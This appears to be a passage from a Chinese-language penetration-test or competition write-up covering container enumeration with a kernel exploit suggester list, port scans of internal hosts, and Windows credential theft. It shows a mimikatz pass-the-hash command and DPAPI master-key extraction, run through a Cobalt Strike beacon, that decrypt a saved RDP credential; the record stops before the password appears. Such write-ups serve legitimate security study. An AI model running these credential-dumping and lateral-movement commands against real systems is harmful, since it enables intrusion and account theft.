0:40 / / rw,relatime - overlay overlay rw,seclabel,lowerdir=/var/lib/docker/overlay2/l/TKMQXM275JPVL42KRQM3QC45RD:/var/lib/docker/overlay2/l/AJ5VYVHDQ7TWKIBZMGC3PHYBPN:/var/lib/docker/overlay2/l/P46O2NCG4BKMNZQVYCGKHAJAXJ:/var/lib/docker/overlay2/l/SYRQ3KQ3CIUETNW6E4QERV2GDN:/var/lib/docker/overlay2/l/7G3NIF3VPVGN6PIEKILXGXWZEN:/var/lib/docker/overlay2/l/E5GO2UEBO4UDVCSQGYFUQY2C37:/var/lib/docker/overlay2/l/CEKJ3P62SSRJXJACRORDMD36LS:/var/lib/docker/overlay2/l/6KWOOR4V753CYE5VLBL36PGVYL:/var/lib/docker/overlay2/l/BKXGULJDZMAZGXB4QMXUONNG65:/var/lib/docker/overlay2/l/XFWDHIXQH4E7IJLC4GTQSCHGZC,upperdir=/var/lib/docker/overlay2/5bd507c773589cc1dca0b27aaa3f98bdb8a7742f197b3a4c9f38a231076713e8/diff,workdir=/var/lib/docker/overlay2/5bd507c773589cc1dca0b27aaa3f98bdb8a7742f197b3a4c9f38a231076713e8/work
0:42 / /proc rw,nosuid,nodev,noexec,relatime - proc proc rw
0:43 / /dev rw,nosuid - tmpfs tmpfs rw,seclabel,size=65536k,mode=755
0:44 / /dev/pts rw,nosuid,noexec,relatime - devpts devpts rw,seclabel,gid=5,mode=620,ptmxmode=666
0:45 / /sys ro,nosuid,nodev,noexec,relatime - sysfs sysfs ro,seclabel
0:46 / /sys/fs/cgroup rw,nosuid,nodev,noexec,relatime - tmpfs tmpfs rw,seclabel,mode=755
0:22 /docker/25b8a4c87c6db5318865c0231719106f948711f44953c1644029c19ed5ae511a /sys/fs/cgroup/systemd ro,nosuid,nodev,noexec,relatime - cgroup cgroup rw,seclabel,xattr,release_agent=/usr/lib/systemd/systemd-cgroups-agent,name=systemd
0:24 /docker/25b8a4c87c6db5318865c0231719106f948711f44953c1644029c19ed5ae511a /sys/fs/cgroup/memory ro,nosuid,nodev,noexec,relatime - cgroup cgroup rw,seclabel,memory
0:25 /docker/25b8a4c87c6db5318865c0231719106f948711f44953c1644029c19ed5ae511a /sys/fs/cgroup/hugetlb ro,nosuid,nodev,noexec,relatime - cgroup cgroup rw,seclabel,hugetlb
0:26 /docker/25b8a4c87c6db5318865c0231719106f948711f44953c1644029c19ed5ae511a /sys/fs/cgroup/freezer ro,nosuid,nodev,noexec,relatime - cgroup cgroup rw,seclabel,freezer
0:27 /docker/25b8a4c87c6db5318865c0231719106f948711f44953c1644029c19ed5ae511a /sys/fs/cgroup/net_cls,net_prio ro,nosuid,nodev,noexec,relatime - cgroup cgroup rw,seclabel,net_prio,net_cls
0:28 /docker/25b8a4c87c6db5318865c0231719106f948711f44953c1644029c19ed5ae511a /sys/fs/cgroup/cpu,cpuacct ro,nosuid,nodev,noexec,relatime - cgroup cgroup rw,seclabel,cpuacct,cpu
0:29 /docker/25b8a4c87c6db5318865c0231719106f948711f44953c1644029c19ed5ae511a /sys/fs/cgroup/pids ro,nosuid,nodev,noexec,relatime - cgroup cgroup rw,seclabel,pids
0:30 /docker/25b8a4c87c6db5318865c0231719106f948711f44953c1644029c19ed5ae511a /sys/fs/cgroup/perf_event ro,nosuid,nodev,noexec,relatime - cgroup cgroup rw,seclabel,perf_event
0:31 /docker/25b8a4c87c6db5318865c0231719106f948711f44953c1644029c19ed5ae511a /sys/fs/cgroup/cpuset ro,nosuid,nodev,noexec,relatime - cgroup cgroup rw,seclabel,cpuset
0:32 /docker/25b8a4c87c6db5318865c0231719106f948711f44953c1644029c19ed5ae511a /sys/fs/cgroup/blkio ro,nosuid,nodev,noexec,relatime - cgroup cgroup rw,seclabel,blkio
0:33 /docker/25b8a4c87c6db5318865c0231719106f948711f44953c1644029c19ed5ae511a /sys/fs/cgroup/devices ro,nosuid,nodev,noexec,relatime - cgroup cgroup rw,seclabel,devices
0:41 / /dev/mqueue rw,nosuid,nodev,noexec,relatime - mqueue mqueue rw,seclabel
0:47 / /dev/shm rw,nosuid,nodev,noexec,relatime - tmpfs shm rw,seclabel,size=65536k
253:0 /var/lib/docker/containers/25b8a4c87c6db5318865c0231719106f948711f44953c1644029c19ed5ae511a/resolv.conf /etc/resolv.conf rw,relatime - xfs /dev/mapper/centos-root rw,seclabel,attr2,inode64,noquota
253:0 /var/lib/docker/containers/25b8a4c87c6db5318865c0231719106f948711f44953c1644029c19ed5ae511a/hostname /etc/hostname rw,relatime - xfs /dev/mapper/centos-root rw,seclabel,attr2,inode64,noquota
253:0 /var/lib/docker/containers/25b8a4c87c6db5318865c0231719106f948711f44953c1644029c19ed5ae511a/hosts /etc/hosts rw,relatime - xfs /dev/mapper/centos-root rw,seclabel,attr2,inode64,noquota
0:42 /bus /proc/bus ro,nosuid,nodev,noexec,relatime - proc proc rw
0:42 /fs /proc/fs ro,nosuid,nodev,noexec,relatime - proc proc rw
0:42 /irq /proc/irq ro,nosuid,nodev,noexec,relatime - proc proc rw
0:42 /sys /proc/sys ro,nosuid,nodev,noexec,relatime - proc proc rw
0:42 /sysrq-trigger /proc/sysrq-trigger ro,nosuid,nodev,noexec,relatime - proc proc rw
0:48 / /proc/acpi ro,relatime - tmpfs tmpfs ro,seclabel
0:43 /null /proc/kcore rw,nosuid - tmpfs tmpfs rw,seclabel,size=65536k,mode=755
0:43 /null /proc/keys rw,nosuid - tmpfs tmpfs rw,seclabel,size=65536k,mode=755
0:43 /null /proc/timer_list rw,nosuid - tmpfs tmpfs rw,seclabel,size=65536k,mode=755
0:43 /null /proc/timer_stats rw,nosuid - tmpfs tmpfs rw,seclabel,size=65536k,mode=755
0:43 /null /proc/sched_debug rw,nosuid - tmpfs tmpfs rw,seclabel,size=65536k,mode=755
0:49 / /proc/scsi ro,relatime - tmpfs tmpfs ro,seclabel
0:50 / /sys/firmware ro,relatime - tmpfs tmpfs ro,seclabel

[  Information Gathering - Net Namespace  ]
        container net namespace isolated.

[  Information Gathering - Sysctl Variables  ]
2025/02/17 08:53:36 net.ipv4.conf.all.route_localnet = 0

[  Information Gathering - DNS-Based Service Discovery  ]
error when requesting coreDNS: lookup any.any.svc.cluster.local. on 127.0.0.11:53: server misbehaving
error when requesting coreDNS: lookup any.any.any.svc.cluster.local. on 127.0.0.11:53: server misbehaving

[  Discovery - K8s API Server  ]
2025/02/17 08:53:52 checking if api-server allows system:anonymous request.
err found while searching local K8s apiserver addr.:
err: cannot find kubernetes api host in ENV
        api-server forbids anonymous request.
        response:

[  Discovery - K8s Service Account  ]
load K8s service account token error.:
open /var/run/secrets/kubernetes.io/serviceaccount/token: no such file or directory

[  Discovery - Cloud Provider Metadata API  ]
2025/02/17 08:53:53 failed to dial Alibaba Cloud API.
2025/02/17 08:53:54 failed to dial Azure API.
2025/02/17 08:53:55 failed to dial Google Cloud API.
2025/02/17 08:53:56 failed to dial Tencent Cloud API.
2025/02/17 08:53:57 failed to dial OpenStack API.
2025/02/17 08:53:58 failed to dial Amazon Web Services (AWS) API.
2025/02/17 08:53:58 failed to dial ucloud API.

[  Exploit Pre - Kernel Exploits  ]
2025/02/17 08:53:58 refer: https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},[ RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31} ],RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},ubuntu=16.04|14.04|12.04
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,[ RHEL=5|6|7 ],ubuntu=14.04|12.04,ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2017-1000253] PIE_stack_corruption

   Details: https://www.qualys.com/2017/09/26/linux-pie-cve-2017-1000253/cve-2017-1000253.txt
   Exposure: probable
   Tags: [ RHEL=6 ],RHEL=7{kernel:3.10.0-514.21.2|3.10.0-514.26.1}
   Download URL: https://www.qualys.com/2017/09/26/linux-pie-cve-2017-1000253/cve-2017-1000253.c

[+] [CVE-2021-27365] linux-iscsi

   Details: https://blog.grimm-co.com/2021/03/new-old-bugs-in-linux-kernel.html
   Exposure: less probable
   Tags: RHEL=8
   Download URL: https://codeload.github.com/grimm-co/NotQuite0DayFriday/zip/trunk
   Comments: CONFIG_SLAB_FREELIST_HARDENED must not be enabled

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: less probable
   Tags: ubuntu=20.04{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2019-15666] XFRM_UAF

   Details: https://duasynt.com/blog/ubuntu-centos-redhat-privesc
   Exposure: less probable
   Download URL:
   Comments: CONFIG_USER_NS needs to be enabled; CONFIG_XFRM needs to be enabled

[+] [CVE-2017-7308] af_packet

   Details: https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html
   Exposure: less probable
   Tags: ubuntu=16.04{kernel:4.8.0-(34|36|39|41|42|44|45)-generic}
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-7308/poc.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2017-7308/poc.c
   Comments: CAP_NET_RAW cap or CONFIG_USER_NS=y needed. Modified version at 'ext-url' adds support for additional kernels

[+] [CVE-2017-6074] dccp

   Details: http://www.openwall.com/lists/oss-security/2017/02/22/3
   Exposure: less probable
   Tags: ubuntu=(14.04|16.04){kernel:4.4.0-62-generic}
   Download URL: https://www.exploit-db.com/download/41458
   Comments: Requires Kernel be built with CONFIG_IP_DCCP enabled. Includes partial SMEP/SMAP bypass

[+] [CVE-2016-2384] usb-midi

   Details: https://xairy.github.io/blog/2016/cve-2016-2384
   Exposure: less probable
   Tags: ubuntu=14.04,fedora=22
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-2384/poc.c
   Comments: Requires ability to plug in a malicious USB device and to execute a malicious binary as a non-privileged user

[+] [CVE-2015-9322] BadIRET

   Details: http://labs.bromium.com/2015/02/02/exploiting-badiret-vulnerability-cve-2014-9322-linux-kernel-privilege-escalation/
   Exposure: less probable
   Tags: RHEL<=7,fedora=20
   Download URL: http://site.pi3.com.pl/exp/p_cve-2014-9322.tar.gz

[+] [CVE-2015-8660] overlayfs (ovl_setattr)

   Details: http://www.halfdog.net/Security/2015/UserNamespaceOverlayfsSetuidWriteExec/
   Exposure: less probable
   Tags: ubuntu=(14.04|15.10){kernel:4.2.0-(18|19|20|21|22)-generic}
   Download URL: https://www.exploit-db.com/download/39166

[+] [CVE-2015-8660] overlayfs (ovl_setattr)

   Details: http://www.halfdog.net/Security/2015/UserNamespaceOverlayfsSetuidWriteExec/
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/39230

[+] [CVE-2014-5207] fuse_suid

   Details: https://www.exploit-db.com/exploits/34923/
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/34923

[+] [CVE-2014-4014] inode_capable

   Details: http://www.openwall.com/lists/oss-security/2014/06/10/4
   Exposure: less probable
   Tags: ubuntu=12.04
   Download URL: https://www.exploit-db.com/download/33824

[+] [CVE-2014-0196] rawmodePTY

   Details: http://blog.includesecurity.com/2014/06/exploit-walkthrough-cve-2014-0196-pty-kernel-race-condition.html
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/33516

[+] [CVE-2014-0038] timeoutpwn

   Details: http://blog.includesecurity.com/2014/03/exploit-CVE-2014-0038-x32-recvmmsg-kernel-vulnerablity.html
   Exposure: less probable
   Tags: ubuntu=13.10
   Download URL: https://www.exploit-db.com/download/31346
   Comments: CONFIG_X86_X32 needs to be enabled

[+] [CVE-2014-0038] timeoutpwn 2

   Details: http://blog.includesecurity.com/2014/03/exploit-CVE-2014-0038-x32-recvmmsg-kernel-vulnerablity.html
   Exposure: less probable
   Tags: ubuntu=(13.04|13.10){kernel:3.(8|11).0-(12|15|19)-generic}
   Download URL: https://www.exploit-db.com/download/31347
   Comments: CONFIG_X86_X32 needs to be enabled

[+] [CVE-2016-0728] keyring

   Details: http://perception-point.io/2016/01/14/analysis-and-exploitation-of-a-linux-kernel-vulnerability-cve-2016-0728/
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/40003
   Comments: Exploit takes about ~30 minutes to run. Exploit is not reliable, see: https://cyseclabs.com/blog/cve-2016-0728-poc-not-working


[  Information Gathering - Sensitive Files  ]
        .dockerenv - /.dockerenv
        /.bashrc - /etc/skel/.bashrc

[  Information Gathering - ASLR  ]
2025/02/17 08:54:01 /proc/sys/kernel/randomize_va_space file content: 2
2025/02/17 08:54:01 ASLR is enabled.

[  Information Gathering - Cgroups  ]
2025/02/17 08:54:01 /proc/1/cgroup file content:
        11:devices:/docker/25b8a4c87c6db5318865c0231719106f948711f44953c1644029c19ed5ae511a
        10:blkio:/docker/25b8a4c87c6db5318865c0231719106f948711f44953c1644029c19ed5ae511a
        9:cpuset:/docker/25b8a4c87c6db5318865c0231719106f948711f44953c1644029c19ed5ae511a
        8:perf_event:/docker/25b8a4c87c6db5318865c0231719106f948711f44953c1644029c19ed5ae511a
        7:pids:/docker/25b8a4c87c6db5318865c0231719106f948711f44953c1644029c19ed5ae511a
        6:cpuacct,cpu:/docker/25b8a4c87c6db5318865c0231719106f948711f44953c1644029c19ed5ae511a
        5:net_prio,net_cls:/docker/25b8a4c87c6db5318865c0231719106f948711f44953c1644029c19ed5ae511a
        4:freezer:/docker/25b8a4c87c6db5318865c0231719106f948711f44953c1644029c19ed5ae511a
        3:hugetlb:/docker/25b8a4c87c6db5318865c0231719106f948711f44953c1644029c19ed5ae511a
        2:memory:/docker/25b8a4c87c6db5318865c0231719106f948711f44953c1644029c19ed5ae511a
        1:name=systemd:/docker/25b8a4c87c6db5318865c0231719106f948711f44953c1644029c19ed5ae511a
2025/02/17 08:54:01 /proc/self/cgroup file added content (compare pid 1) :
mysql@25b8a4c87c6d:/tmp$
```

<https://mp.weixin.qq.com/s/ldxbx3HH0RANciHhKxI5Vw>

前不久看过2024年深育杯决赛那个渗透，用脏牛做的docker逃逸，然后测了一下发现不行，提权也不行。

#### 脏牛提权&逃逸





然后就没测了....

# 第三台机器

```
172.32.50.33:445 open
172.32.50.33:139 open
172.32.50.33:135 open
172.32.50.22:80 open
172.32.50.22:3306 open
172.32.50.22:445 open
172.32.50.22:139 open
172.32.50.22:135 open
[+] NetInfo:
[*]172.32.50.33
   [->]WIN-QVNDHCLPR7Q
   [->]172.32.50.33
   [->]10.0.0.65
[*] 172.32.50.22         WORKGROUP\WIN-BVAJO3C2D90   Windows Server 2012 R2 Standard 9600
[*] 172.32.50.33         WORKGROUP\WIN-QVNDHCLPR7Q   Windows Server 2016 Standard 14393
[*] WebTitle:http://172.32.50.22       code:200 len:8460   title:梦想cms（lmxcms）是一套完全免费、开源、无授权限制的网站管理系统
```

### 全端口扫描

```
172.32.50.33:445 open
172.32.50.33:139 open
172.32.50.33:135 open
172.32.50.33:3389 open
172.32.50.33:5985 open
172.32.50.33:47001 open
172.32.50.33:49670 open
172.32.50.33:49669 open
172.32.50.33:49668 open
172.32.50.33:49667 open
172.32.50.33:49666 open
172.32.50.33:49665 open
172.32.50.33:49664 open
[+] NetInfo:
[*]172.32.50.33
   [->]WIN-QVNDHCLPR7Q
   [->]172.32.50.33
   [->]10.0.0.65
[*] 172.32.50.33         WORKGROUP\WIN-QVNDHCLPR7Q   Windows Server 2016 Standard 14393
[*] WebTitle:http://172.32.50.33:5985  code:404 len:315    title:Not Found
[*] WebTitle:http://172.32.50.33:47001 code:404 len:315    title:Not Found
```

## rdp免密登录

晚上官方回了消息，说是打另外一边，然后上课无聊的时候上去看了一眼，发现C盘有一个rdp的连接，感觉不太对劲，可能本地有凭据。



### netpass

然后查了一下凭据管理没找到东西，使用工具抓了一下



发现不对，然后翻到一篇文章

<https://blog.csdn.net/qq_36618918/article/details/130677478>

用test$上去可以看到存在文件，但是看不到内容



### hash上线Administrator远程桌面

后面用之前抓的administrator的hash上线远程桌面

```
sekurlsa::pth /user:administrator /domain:WORKGROUP\WIN-QVNDHCLPR7Q /ntlm:3522af22f02f93c6830ddcdcbf0e520c "/run:mstsc.exe /restrictedadmin"
```

也没看到，想到上线CS了有system权限去那看看。

```
dir /a %userprofile%\AppData\Local\Microsoft\Credentials\*
```



### Administrator账户的凭据

#### 获取guidMasterKey

通过密码文件获取guidMasterKey的值

选择密码文件，使用mimikatz对其文件进行解密，并记录下guidMasterKey的值

C:UsersAdministratorAppDataLocalMicrosoftCredentials

```
C:\Program Files\phpStudy\WWW\template> mimikatz.x64.exe "dpapi::cred /in:%userprofile%\AppData\Local\Microsoft\Credentials\F18D03964B3469BAEA4542A7792D663B" "exit"
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # dpapi::cred /in:C:\Users\Administrator\AppData\Local\Microsoft\Credentials\F18D03964B3469BAEA4542A7792D663B
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {6efe9428-9291-4923-a32a-fc25965bfd5f}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000012 - 18
  szDescription      : 本地凭据数据


  algCrypt           : 00006610 - 26128 (CALG_AES_256)
  dwAlgCryptLen      : 00000100 - 256
  dwSaltLen          : 00000020 - 32
  pbSalt             : 7880c62a538f73b184582f2e030d50c833561db200bb3c320ac78fcc8425932b
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         : 
  algHash            : 0000800e - 32782 (CALG_SHA_512)
  dwAlgHashLen       : 00000200 - 512
  dwHmac2KeyLen      : 00000020 - 32
  pbHmack2Key        : 08241b5ef1c9049b755c0b50d890e665f332405d9e3895b59c54dc0c7f47a34d
  dwDataLen          : 000000f0 - 240
  pbData             : fbdde633c035d44e41e7497de22806e7426b45a2de41e6f0b9a5caec620bcd0859e136723745ad9819aa81307eac407d71de3832b62979a742a29583a8b4b905ff0a1203107448a2ac52e3d3fb67931766b34be0b8e1884552375c881494f9a2760e45a874f0d49bd2e375d71abddc659973ab1ee3bc25a785e3ba4107c046b48636364f5f6376344a5e86566d90852b5b8310a02189a863f29498c6af85f0e92251eb4d0d113bc4354519068a035e1bcf1ab355e7b39e52c0c80932c9dc378323ec258cb8530bf37848f7046ae09528ce315d96c3695b6103233636088cbac0cc35de7363d5991c437ad808734c827b
  dwSignLen          : 00000040 - 64
  pbSign             : be02c26f3eb2f016108ffe2d2b61b19236231d066c4d524b0d2e23dc6c93ff4a50229bcd1f6f1dc769e59cac6b6bca54f5f2a09b729163cfa4cfdc15a8c4a903


mimikatz(commandline) # exit
Bye!
```

guidMasterKey的值为：{6efe9428-9291-4923-a32a-fc25965bfd5f}

需要记下这个guidMasterKey的值

根据guidMasterKey找到对应Masterkey

根据guidMasterKey，使用mimikatz找到对应的Masterkey

#### 获取Masterkey

```
beacon> shell mimikatz.x64.exe "privilege::debug" "sekurlsa::dpapi" exit > 1.txt

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::dpapi

Authentication Id : 0 ; 712082 (00000000:000add92)
Session           : RemoteInteractive from 3
User Name         : Administrator
Domain            : WIN-BVAJO3C2D90
Logon Server      : WIN-BVAJO3C2D90
Logon Time        : 2025/2/20 1:14:17
SID               : S-1-5-21-3209471760-3824117125-4063596258-500
     [00000000]
     * GUID      :	{6efe9428-9291-4923-a32a-fc25965bfd5f}
     * Time      :	2025/2/20 1:25:19
     * MasterKey :	2af578e7d889e691901422cabdd559e42d0a03882073e7ca46abc03422547ec7108113dc8928326cc181c69b6eff2fa7d87a06254474f0a892f9c183d56aae55
     * sha1(key) :	593b1e3d73e67eae9d4b3ed539a253fed2fd7e37


Authentication Id : 0 ; 707810 (00000000:000acce2)
Session           : Interactive from 3
User Name         : DWM-3
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/2/20 1:14:17
SID               : S-1-5-90-3


Authentication Id : 0 ; 486856 (00000000:00076dc8)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/2/20 1:10:57
SID               : S-1-5-90-2


Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : WIN-BVAJO3C2D90$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 2025/2/20 0:28:15
SID               : S-1-5-20


Authentication Id : 0 ; 27644 (00000000:00006bfc)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 2025/2/20 0:28:13
SID               : 


Authentication Id : 0 ; 707827 (00000000:000accf3)
Session           : Interactive from 3
User Name         : DWM-3
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/2/20 1:14:17
SID               : S-1-5-90-3


Authentication Id : 0 ; 491743 (00000000:000780df)
Session           : RemoteInteractive from 2
User Name         : test$
Domain            : WIN-BVAJO3C2D90
Logon Server      : WIN-BVAJO3C2D90
Logon Time        : 2025/2/20 1:10:57
SID               : S-1-5-21-3209471760-3824117125-4063596258-1001


Authentication Id : 0 ; 491717 (00000000:000780c5)
Session           : RemoteInteractive from 2
User Name         : test$
Domain            : WIN-BVAJO3C2D90
Logon Server      : WIN-BVAJO3C2D90
Logon Time        : 2025/2/20 1:10:57
SID               : S-1-5-21-3209471760-3824117125-4063596258-1001


Authentication Id : 0 ; 486839 (00000000:00076db7)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/2/20 1:10:57
SID               : S-1-5-90-2


Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2025/2/20 0:28:15
SID               : S-1-5-19


Authentication Id : 0 ; 56133 (00000000:0000db45)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/2/20 0:28:15
SID               : S-1-5-90-1


Authentication Id : 0 ; 56115 (00000000:0000db33)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/2/20 0:28:15
SID               : S-1-5-90-1


Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : WIN-BVAJO3C2D90$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 2025/2/20 0:28:13
SID               : S-1-5-18
     [00000000]
     * GUID      :	{840f2725-42db-47c4-b2b8-be5ade0635ed}
     * Time      :	2025/2/20 1:17:29
     * MasterKey :	3d208b36f0f8c8d9e60560351a57f5c0c18c006733b5b14c6d23d8e779e0aed7f35e07d0dc6c893297a6d3b8ac9000940c2f2fbe356327b95022abf5c643b329
     * sha1(key) :	2c9df2e64bd47ed8ba1b96a2f46199ab47863b1a
     [00000001]
     * GUID      :	{033730ff-4694-4579-acfa-e5a1094b9b76}
     * Time      :	2025/2/20 1:14:17
     * MasterKey :	68ca4607e9aff814cc44621c22adf64ce3e69d7a3fbaa7e5cbb28e4ed9d87b952263d9cef0cfc37f3d0d8e0a4009b743d3fcd7831958b5593c0612f7ef52028b
     * sha1(key) :	a805b2bdfd9e733372747d64794d8e0421b44a83
     [00000002]
     * GUID      :	{9ffb8fdd-ee67-46e6-a0b5-acaa65d37581}
     * Time      :	2025/2/20 1:07:14
     * MasterKey :	d66ec675b7789d8c929b9d887b63b8cdcdb0607b0ef6af226865964125c83e31608db9a7495a126ed80f04f854a4ff3c1393da53fe64e1080b2b10e2d933ee38
     * sha1(key) :	5a65883276c8f9e39a9153af049e70fb66a9a516
     [00000003]
     * GUID      :	{bea7af03-2ef6-499c-a1cf-0ecc57f4cc21}
     * Time      :	2025/2/20 0:28:15
     * MasterKey :	f1294a467fea87d298586700c92223ec9fc092862fcf31637ee1a345e5b7323cceccc08765e0a9c979f6713c90589061bced467aa5dbf22098949d8aef80204c
     * sha1(key) :	1e07cf8bbffc67a95572c27c6e8515685b415dbf
     [00000004]
     * GUID      :	{afe30aef-f67e-4cea-9b91-71318f566140}
     * Time      :	2025/2/20 0:28:14
     * MasterKey :	c8cce9b5629b7ba44a7585bafbc3230ff35f3218ddc987c406e26799da37b857e34f26fb0c03ba68989a3c5cfc076b17cb4982be08134fd05a8cc36713ecc227
     * sha1(key) :	39507d003e38633020e85d318e509f55939d208f


mimikatz(commandline) # exit
Bye!
```

#### 解密获取明文

通过MasterKey，使用mimikatz解密pbData数据，获取RDP连接明文密码

```
mimikatz.x64.exe "dpapi::cred /in:%userprofile%\AppData\Local\Microsoft\Credentials\F18D03964B3469BAEA4542A7792D663B /masterkey:2af578e7d889e691901422cabdd559e42d0a03882073e7ca46abc03422547ec7108113dc8928326cc181c69b6eff2fa7d87a06254474f0a892f9c183d56aae55" "exit"
```

得到

```
.#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # dpapi::cred /in:C:\Users\Administrator\AppData\Local\Microsoft\Credentials\F18D03964B3469BAEA4542A7792D663B /masterkey:2af578e7d889e691901422cabdd559e42d0a03882073e7ca46abc03422547ec7108113dc8928326cc181c69b6eff2fa7d87a06254474f0a892f9c183d56aae55
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {6efe9428-9291-4923-a32a-fc25965bfd5f}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000012 - 18
  szDescription      : 本地凭据数据


  algCrypt           : 00006610 - 26128 (CALG_AES_256)
  dwAlgCryptLen      : 00000100 - 256
  dwSaltLen          : 00000020 - 32
  pbSalt             : 7880c62a538f73b184582f2e030d50c833561db200bb3c320ac78fcc8425932b
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         : 
  algHash            : 0000800e - 32782 (CALG_SHA_512)
  dwAlgHashLen       : 00000200 - 512
  dwHmac2KeyLen      : 00000020 - 32
  pbHmack2Key        : 08241b5ef1c9049b755c0b50d890e665f332405d9e3895b59c54dc0c7f47a34d
  dwDataLen          : 000000f0 - 240
  pbData             : fbdde633c035d44e41e7497de22806e7426b45a2de41e6f0b9a5caec620bcd0859e136723745ad9819aa81307eac407d71de3832b62979a742a29583a8b4b905ff0a1203107448a2ac52e3d3fb67931766b34be0b8e1884552375c881494f9a2760e45a874f0d49bd2e375d71abddc659973ab1ee3bc25a785e3ba4107c046b48636364f5f6376344a5e86566d90852b5b8310a02189a863f29498c6af85f0e92251eb4d0d113bc4354519068a035e1bcf1ab355e7b39e52c0c80932c9dc378323ec258cb8530bf37848f7046ae09528ce315d96c3695b6103233636088cbac0cc35de7363d5991c437ad808734c827b
  dwSignLen          : 00000040 - 64
  pbSign             : be02c26f3eb2f016108ffe2d2b61b19236231d066c4d524b0d2e23dc6c93ff4a50229bcd1f6f1dc769e59cac6b6bca54f5f2a09b729163cfa4cfdc15a8c4a903

Decrypting Credential:
 * masterkey     : 2af578e7d889e691901422cabdd559e42d0a03882073e7ca46abc03422547ec7108113dc8928326cc181c69b6eff2fa7d87a06254474f0a892f9c183d56aae55
**CREDENTIAL**
  credFlags      : 00000030 - 48
  credSize       : 000000e2 - 226
  credUnk0       : 00000000 - 0

  Type           : 00000002 - 2 - domain_password
  Flags          : 00000000 - 0
  LastWritten    : 2025/2/17 0:10:47
  unkFlagsOrSize : 00000018 - 24
  Persist        : 00000002 - 2 - local_machine
